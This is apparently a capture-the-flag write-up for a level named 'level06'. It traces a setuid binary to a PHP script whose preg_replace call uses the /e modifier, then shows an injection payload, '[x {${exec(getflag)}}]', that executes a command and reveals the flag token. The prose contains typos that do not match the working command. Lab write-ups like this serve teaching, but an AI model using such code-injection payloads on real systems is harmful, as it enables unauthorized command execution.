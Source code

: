 ## LEVEL 06

---

In this level we have two files:

```shell
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both of these files have as owner `flag06` and so there can run `getflag`.

But `level06` file has special permissions.

```shell
$ getfacl level06
# file: level06
# owner: flag06
# group: level06
# flags: s--
user::rwx
group::---
group:level06:r-x
mask::r-x
other::---
```

So we can execute this file.

Now I want to know what this executable does.

```shell
$ gdb -q level06
(gdb) disas main
[...]
0x08048514 <+196>:	call   0x8048430 <execve@plt>
[...]
(gdb) x/32s 0x80487d5
0x80487d5:	 "/usr/bin/php"
0x80487e2:	 "/home/user/level06/level06.php"
```

Now I know that this executable executes the file `level06.php`. Now what this file does ?

```shell
$ cat level06.php
#!/usr/bin/php
<?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y); // get the file contents from $y
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // replace [x...] with y("")
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
?>
```

This php script have vulnerability with the /e modifier. This means that when `preg_replace` is called the secoond parameter will be replaced and executed.

For example :
```
preg_replace(..., ..., '"[x salut]"') => "salut" and salut will execute salut like a script.
```

So I want to execute `{${exac_shell(getflat)}}` so the input must be `[x {${exac_shell(getflat)}}]`.

```shell
$ echo '[x {${exec(getflag)}}]' > /tmp/input
$ ./level06 /tmp/input
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

---

*Source :*

*https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex*

*https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4*